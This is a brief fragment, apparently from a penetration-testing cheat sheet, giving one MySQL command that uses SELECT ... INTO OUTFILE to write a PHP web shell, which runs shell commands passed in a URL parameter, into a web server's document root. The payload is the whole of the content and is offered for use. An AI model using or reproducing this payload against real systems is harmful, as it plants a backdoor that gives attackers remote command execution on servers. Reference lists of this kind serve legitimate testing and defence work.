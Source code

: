 ### MySQL
* `select '<?php $output=shell_exec($_GET["cmd"]);echo "<pre>$output"</pre>?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1;` - write on disk a php shell